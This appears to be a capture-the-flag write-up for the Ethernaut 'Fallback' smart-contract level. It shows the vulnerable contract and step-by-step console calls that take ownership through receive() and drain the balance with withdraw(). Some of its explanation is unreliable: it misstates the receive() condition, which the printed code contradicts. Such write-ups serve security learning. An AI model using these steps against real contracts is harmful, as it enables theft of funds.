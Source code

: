 ### TASK
The task is to claim ownership of the contract and drain its balance to 0.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

The contract's funds can be drained by calling the "withdraw" function, and this function can only be executed by the address that is set as the "owner" variable. This function will transfer all of the contract's funds to the address set as the "owner". 


### CODE VUNERABILITIES
##### The "contribute() function"

```solidity
 function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

This function allows the msg.sender to send Ether to the contract, which will be added to the user's balance as tracked by the "contributions" mapping variable. If the total contribution made by the msg.sender is greater than the total contribution made by the current owner (as tracked by the "contributions" mapping variable), the msg.sender will become the new owner.
<br/>
This function could be vulnerable to a "frontrunning" attack, where an attacker can observe the transaction, and sends a larger amount of wei before the original transaction is mined, to become the new owner and some other vunerabilities.
<br/>

##### The 'recieve()' function 
The "receive" function is a special function in Solidity that is automatically executed when a user sends Ether to a contract without specifying any data in the "data" field of the transaction. This function does not require any specific function signature and can be defined by the developer as any other function in the contract.

```solidity
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

In the receive function, the owner is updated with msg.sender only if the amount of wei sent with the transaction is greater than 0, and the total contribution made by msg.sender in the contributions mapping is greater than the one made by the current owner. 


1. We need to first contribute a small amount of ether(in wei) to the contract;

```
   await contract.contribute({from: player, value:toWei("0.0004")})
```

2. Activate the receive function by sending ether to the contract;

```solidity
   await sendTransaction({from: player, value: toWei("0.0004"), to: instance, data: ""})
```

Now check the current owner, it should be your address

```
await contract.owner()
```

You can withdraw all the funds in the contract now by using;

```
  await contract.withdraw();
```

##### Conclusion
If an attacker can finds a way to change the value of the "owner" variable to their own address, they will be able to execute the "withdraw" function and drain all the funds from the contract. Therefore, it is important to ensure that the "owner" variable is protected and cannot be modified by unauthorized parties.

